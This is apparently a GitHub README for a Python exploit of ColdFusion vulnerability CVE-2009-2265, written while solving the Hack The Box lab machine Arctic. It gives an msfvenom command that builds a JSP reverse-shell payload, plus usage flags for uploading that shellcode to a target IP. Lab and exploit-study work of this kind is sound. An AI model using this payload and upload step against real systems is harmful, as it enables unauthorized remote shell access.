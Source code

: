 # zaphoxx-coldfusion
coldfusion exploit based on https://cvedetails.com/cve/CVE-2009-2265/

The main reason I setup a python script for this particular cve was that the metasploit version of the same did not work for me when I tried to solve the HTB machine Arctic. Also it was nice to get some little python pratice. However there is another python version of that same exploit around which was originally created by Alexander Reid if you prefer to use his version.

Usage is pretty simple:

Make sure you have a payload file created 

e.g. using msfvenom:
`msfvenom -p java/jsp_shell_reverse_tcp -f raw LHOST=<yourip> LPORT=<yourport> -o shell.jsp`

usage: `python3 2265.py [-h] -t TARGET [-p PORT] [-f FILEPATH] [-b BASEPATH]`

   `usage: 2265.py [-h] -t TARGET [-p PORT] [-f FILEPATH] [-b BASEPATH]`
   
optional arguments:
  
  `-h, --help   show this help message and exit`
  
  `-t TARGET    target ip`
  
  `-p PORT      target port`
  
  `-f FILEPATH  path of file with shellcode to upload`
  
  `-b BASEPATH  coldfusion basepath`


